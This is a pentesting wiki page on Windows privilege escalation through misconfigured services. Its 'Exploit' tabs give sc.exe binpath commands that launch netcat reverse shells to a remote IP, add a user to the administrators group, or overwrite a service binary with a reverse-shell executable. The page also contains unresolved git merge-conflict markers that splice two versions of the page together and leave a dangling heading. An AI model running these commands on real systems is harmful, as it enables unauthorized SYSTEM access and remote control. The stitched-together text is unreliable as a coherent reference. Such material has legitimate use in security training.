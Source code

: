 # Weak Service Permissions

## Theory
It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have permissions over the service you can use it to escalate you privileges.

## Practice

If we have enought permissions over a service, we can edit the `binPath` parameters and replace it with our own binary or command. 
{% tabs %}
{% tab title="Enum" %}
If you have `SERVICE_CHANGE_CONFIG` or `SERVICE_ALL_ACCESS` permissions, you can replace the binary.

We can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.

```powershell
#list all the services that a specific user can modify.
accesschk64.exe -uwcqv "pwned" * -accepteula
accesschk64.exe -uwcqv "Authenticated Users" * -accepteula
accesschk64.exe -uwcqv "BUILTIN\Users" * -accepteula
accesschk.exe -uwcqv %USERNAME% * -accepteula

#list permissions of evryone.
accesschk64.exe -uwcqv * -accepteula

#list permissions for "VulnSvc" service.
accesschk64.exe -uwcqv VulnSvc -accepteula
```

We also can use the `servicesinfo` module of winpeas

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
We can edit the binpath parameter with following commands

```powershell
sc.exe config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc.exe config <Service_Name> binpath= "net localgroup administrators username /add"
sc.exe config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"s
sc.exe config <Service_Name> binpath= "C:\Documents and Settings\PEPE\reverseShell.exe"
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc.exe stop <Service_Name>
sc.exe start <Service_Name>
```
{% endtab %}
{% endtabs %}

<<<<<<< HEAD
## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
=======
### File Permissions

If we have enought permissions over the binary of a service, we can replace it to our own binary. If you have write permissions over the folder you can do [DLL Hijacking](weak-service-permissions.md)

{% tabs %}
{% tab title="Enum" %}
We can get every binary that is executed by a service using wmic and check your permissions using icacls

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Or we can use `sc` and `icacls`

```powershell
#Get list of services
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt

#Get each permissions over BINARY_PATH_NAME 
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

Or we can use the `servicesinfo` module of winpeas

```powershell
winPEASx64.exe servicesinfo
```

An alternative to enumerate full list of permissions for the services running is to use the module [Get-ModifiableServiceFile](https://powersploit.readthedocs.io/en/latest/Privesc/Get-ModifiableServiceFile/) from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

```powershell
Get-ModifiableServiceFile | more
```
{% endtab %}

{% tab title="Exploit" %}
We just have to replace the binary.

```powershell
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```
{% endtab %}
{% endtabs %}

### Registry Permisions
>>>>>>> eaa29f08a08bf3caa837c0df6b21d3de8d4c1e8d
